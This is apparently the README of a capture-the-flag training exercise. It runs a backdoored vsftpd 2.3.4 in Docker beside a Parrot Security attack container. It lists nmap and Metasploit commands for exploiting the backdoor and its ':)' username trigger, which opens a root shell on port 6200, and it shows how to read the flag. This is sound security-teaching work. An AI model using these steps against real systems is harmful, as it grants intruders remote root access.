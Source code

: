 # WCCI CTF Exercise 1

Ubuntu container with a vulnerable version of [vsftpd-2.3.4](https://github.com/nikdubois/vsftpd-2.3.4-infected/tree/vsftpd_original) installed.
This version of vsftpd-2.3.4 contains a malicious backdoor, which could be triggered when a username contained a ":)". Upon execution, a bind shell on port 6200 was opened, giving remote root access to anyone connecting to that port.

The container also contains the latest version of Parrot Security, which can be used to exploit this vulnerability.

## Requirements

- Docker
- Docker Compose

## Instructions

1. Clone this Repo: `git clone https://github.com/johnathan-wcci/VSFTPD-2.3.4-Exercise-1.git`
2. Navigate into this folder: `cd VSFTPD-2.3.4-Exercise-1`
3. Start the Docker Container: `docker compose -f .\docker-compose.yml up'
4. Open Another Terminal.
5. Bash into the Parrot Security Container. This is your attack machine: `docker exec -it test-ctf-Parrot-1 bash`
6. Find Target Machine:
    1. Get Your Machine IP: `ifconfig`
    2. Find the [subnet mask](https://www.aelius.com/njh/subnet_sheet.html).
    3. Run nmap with no port scan to find online machines: `nmap <network-address>/<subnet-mask>`
    4. Run nmap Version Detection on machine with suspected vulnerability: `nmap -sV <ip-address>`
    5. Document the suspected machines IP Address.
7. Open the Metasploit Console: `msfconsole`
8. Select the vsftpd-2.3.4 exploit: `use unix/ftp/vsftpd_234_backdoor`
9. View configurable options: `show options`
10. Set the Target machine: `set RHOST <taget-machine-ip>`
11. Run the exploit: `exploit`
12. Wait for Reverse Shell to start
13. Run a test command to see if shell session is established: `ls -l`
14. Find the flag: `cat ~/Documents/Important\ Keys/keys.txt`
15. Use your favorite Base64 Decoder to decode the flag.
16. DO NOT LEAVE THESE CONTAINERS RUNNING! Stop the docker containers by running: `docker compose -f .\docker-compose.yml down`

## Extra Credit

1. Try manually exploiting this backdoor.
2. Try writing a Python script to exploit this backdoor. There is a shared volume between the Parrot Container and the Host machine that will allow you to develop scripts in your favorite IDE. The mount directory is located at `/home/dev`.

## Resources

[Rapid7 MSFConsole Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)

[Rapid7 VSFTPD-2.3.4 Exploit Module Source Code](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/unix/ftp/vsftpd_234_backdoor.rb)

[University of Hawaii Writeup](https://westoahu.hawaii.edu/cyber/forensics-weekly-executive-summmaries/8424-2/)
